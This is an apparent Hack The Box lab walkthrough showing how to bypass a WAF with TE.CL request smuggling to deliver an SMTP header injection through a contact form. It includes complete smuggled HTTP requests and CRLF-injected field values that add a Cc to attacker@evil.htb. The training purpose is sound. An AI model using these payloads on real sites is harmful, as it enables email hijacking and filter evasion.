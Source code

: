 ![[HTB Solutions/CWEE/z. images/f2e042e4c66f8517dfda81e358bf3000_MD5.jpg]]

Students will notice that they can contact the system administrator via a form; thus, they need to fill it with dummy data and intercept the request:

![[HTB Solutions/CWEE/z. images/5e0822326a51d9117a4f1f74656999ea_MD5.jpg]]

Since the form is asking for the email address of the sender and the scenario states that the client provided the email address `attacker@evil.htb`, it is most probably sending the message via SMTP; therefore, students need to attempt exploiting SMTP header injection. However, students will notice that the `WAF` blocks requests containing the `CRLF` characters sequence:

```http
name=Ryan+Sam&email=ryansam%40gmail.com%0d%0aCc:attacker@evil.htb&message=Hello+Sys+Admin
```

![[HTB Solutions/CWEE/z. images/5032ae02a3a758a492e02d5f4a67db27_MD5.jpg]]

According to the question's hint, the setup is vulnerable to `TE.CL` via a `TE.TE` technique, the `Substring match` technique. Therefore, to bypass the `WAF`, students need to exploit `TE.CL` via the `Substring match` `TE.TE` technique, smuggling the SMTP header injection payload. Within `Repeater`, students need to have a GET request to `/404`, with `Transfer-Encoding` set to `asdchunked`, followed by the size of the smuggled POST request to `/contact` up until before the line with `0` only. The `Content-Length` value of the smuggled request is the sum of the number of bytes of the form fields. The web application is appending additional data to the value of the injection point (i.e., the username field's value, which matches the first header, `Cc`), thus invalidating the email address `attacker@evil.htb` given by the client; to circumvent this, students need to inject an additional dummy header after the `Cc` header:

```http
GET /404 HTTP/1.1
Host: STMIP:STMPO
Content-Length: 4
Transfer-Encoding: asdchunked

f3
POST /contact HTTP/1.1
Host: STMIP:STMPO
Content-Type: application/x-www-form-urlencoded
Content-Length: 114

name=Ryan+Sam%0d%0aCc:+attacker@evil.htb%0d%0aDoesNotExist:+True&email=ryansam%40gmail.com&message=Hello+Sys+Admin

0
```

![[HTB Solutions/CWEE/z. images/6d3af6a8cb36cc904ebacf412ea05082_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/876ac5ca22cde384e3dddb849135c626_MD5.jpg]]

Before sending the request, students need to make sure that they untick `Update Content-Length`:

![[HTB Solutions/CWEE/z. images/24ae51a24b233afaf434e4ff648ce10c_MD5.jpg]]
